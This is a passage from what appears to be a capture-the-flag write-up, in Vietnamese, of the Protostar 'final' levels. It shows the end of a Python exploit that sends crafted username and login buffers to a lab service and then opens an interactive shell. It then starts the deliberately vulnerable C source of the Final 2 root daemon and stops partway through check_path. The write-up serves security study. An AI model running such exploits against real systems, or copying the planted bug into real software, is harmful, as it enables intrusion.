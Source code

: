 ```py

print read_until("[final1] $ ")
s.send("username "+ username_buf + "\n")
print read_until("[final1] $ ")
s.send("login " + login_buf  + "\n")
print read_until("[final1] $ ")

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
Kết quả:

![alt text](image-9.png)

### Final 2
```c
#include "../common/common.c"
#include "../common/malloc.c"

#define NAME "final2"
#define UID 0
#define GID 0
#define PORT 2993

#define REQSZ 128

void check_path(char *buf)
{
  char *start;
  char *p;
  int l;

  /*
  * Work out old software bug
  */

  p = rindex(buf, '/');
  l = strlen(p);
  if(p) {
      start = strstr(buf, "ROOT");
```